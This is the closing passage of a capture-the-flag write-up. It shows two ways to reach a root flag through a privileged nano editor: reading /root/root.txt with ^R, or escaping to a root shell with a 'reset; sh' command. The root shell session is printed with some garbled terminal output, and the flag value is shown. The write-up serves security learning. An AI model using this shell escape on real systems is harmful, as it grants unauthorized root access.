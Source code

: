 1. We can either use nano on the file then `^R` and then simply type `/root/root.txt` and teh flag pops up.

2. Or we can get a shell by doing the above command involving `reset`.
```bash
Command to execute: reset; sh 1>&0 2>&0# ls                                                                                                                                                                                                
user.txtelp                                                                                                          ^X Read File
# cd root                                                                                                            M-F New Buffer
sh: 2: cd: can't cd to root
# cd /root
# ls
root.txt
# type root.txt
root.txt: not found
# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```
Thanks for reading hope you enjoyed.




